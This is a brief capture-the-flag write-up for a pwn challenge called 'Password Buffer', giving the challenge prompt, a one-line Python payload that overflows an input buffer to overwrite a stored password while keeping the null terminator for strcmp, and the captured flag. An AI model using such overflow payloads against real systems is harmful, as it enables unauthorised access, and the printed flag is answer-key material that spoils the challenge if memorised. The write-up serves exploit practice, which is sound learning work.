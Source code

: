 # Password Buffer [pwn]

### Challenge:
I made a brand new password system. The system will generate new passwords before giving you the proper flag. However I seem to have miswritten it as the password I had is no longer in sync. Can you find that flag?

##### Links: ```nc chal.bearcatctf.io 32927```
##### Files: [challenge.zip](challenge.zip)

### Solution:
We can use the bof in the input to overwrite the password.

```py
r.sendline(b"A"*17+b"\x00" + b"A"*31)
```

This will overwrite the password with 17 A's while maintaining the null terminator, as to not break the strcmp check.

Flag: ```BCCTF{K1nDa_WI1d_p4w0Rd_Th3r3_601fd5b4}```